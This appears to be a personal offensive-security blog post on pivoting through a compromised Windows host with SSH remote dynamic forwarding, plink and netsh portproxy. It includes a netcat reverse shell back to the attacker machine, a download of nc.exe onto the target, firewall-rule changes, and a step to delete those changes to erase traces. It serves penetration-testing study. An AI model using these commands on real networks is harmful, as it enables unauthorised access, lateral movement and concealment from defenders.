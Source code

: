 ```yaml
---
layout: post
title: Windows Port Forwarding
titledate: 09/24/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "plink", "netsh"]
---
```


#### Windows SSH tools

windows has ssh and several other bundled tools available by default since win 1803 and an option since 1709 

by default ssh is located in %systemdrive%\Windows\System32\OpenSSH

if our DMZ target1 has ssh installed we can use that to setup a remote dynamic port forward

on our attacking machine

    $ sudo systemctl start ssh

then on our attacking machine we connect via rdp to the connection that has ssh installed via rdp

    $ xfreerdp /u:rdp_user /p:password /v:192.168.1.1

to check for ssh in windows

    $ where ssh

    $ ssh.exe -V

if the versin of ssh is higher than 7.6 then we can use remote dynamic port forwarding

now we open up the remote dynamic listening session on our kali machine

    target1: ssh -N -R 9998 attacker@192.168.1.1

to check the port is listening on our kali machine

    $ ss -ntplu

update /etc/proxychains4.conf

    socks5 127.0.0.1 9998

in this example the postgres db is on an internal network we cannot reach but our ssh windows machine can , now that we have remote dynamic port forwarding setup, we can use proxychains with psql to connect to this internal db

    $ proxychains psql -h 10.4.50.1 -U postgres

#### plink

what if ssh has been removed

one of the advantages of plink is it is not as readily flagged as an unwanted communication tool compared to some other more well known tools

to run plink we first need to copy over netcat to our windows machine

i do this with a python server

    $ cp /usr/share/windows-resources/binaries/nc.exe .

    $ python3 -m uploadserver

or if we have a shell only

    target1:> powershell wget -Uri http://192.168.10.10/nc.exe -OutFile C:\Windows\Temp\nc.exe

then on windows i can download the the executable

setup a netcat listener on our attacker

    $ nc -nvlp 4446

on the windows taget connect to the nc listener

    $ C:\Windows\Temp\nc.exe -e cmd.exe 192.168.1.1 4446

then we copy plink over to windows

    $ cp /usr/share/windows-resources/binaries/plink.exe .

once plink is copied over

    $ C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.1.1

then on our kali host we can check that 9833 is listening

    $ ss -ntplu

now we can conect to the attacking machine loopback interface through port 9983 via rdp through the plink remote port forward

    $ xfreerdp /u:rdp /p:password /v:127.0.0.1:9833

#### netsh

netsh does require admin privs to setup port forwarding but it is a native windows tool

in this example we want to connect to an internal pg db via an ssh port forward and have admin rdp access to a target windows machine

we rdp to the machine

    $ xfreerdp /u:rdp /p:password /v:192.168.1.1

because we can run cmd as admin we do so

    C:> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.1.1 connectport=22 connectaddress=10.4.1.1

here we use netsh to create a listening external interface 2222  forward traffic to the pg db port 22 

we can use netstat to see our listening ports

    C:> netstat -anp TCP | find "2222"

and check our port forward setup

    C:> netsh interface portproxy show all

now we can check the port from our attacking machine

    $ sudo nmap -sS 192.168.1.1 -Pn -n -p2222

it is possible that a firewall is blocking 2222 if it reports filtered

if this is the case we can use netsh again to create a firewall rule to allow connections on this port

    C:> netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.1.1 localport=2222 action=allow

now if the port is open we can connect from our attacking kali machine to port 2222 on our listening target1 windows machine and directly reach port 22 on the internal pg db machine

    $ ssh database_admin@192.168.1.1 -p2222

after our attack is complete we can delete both the firewall rule and port forward to erase our steps

    C:> netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
    C:> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.1.1


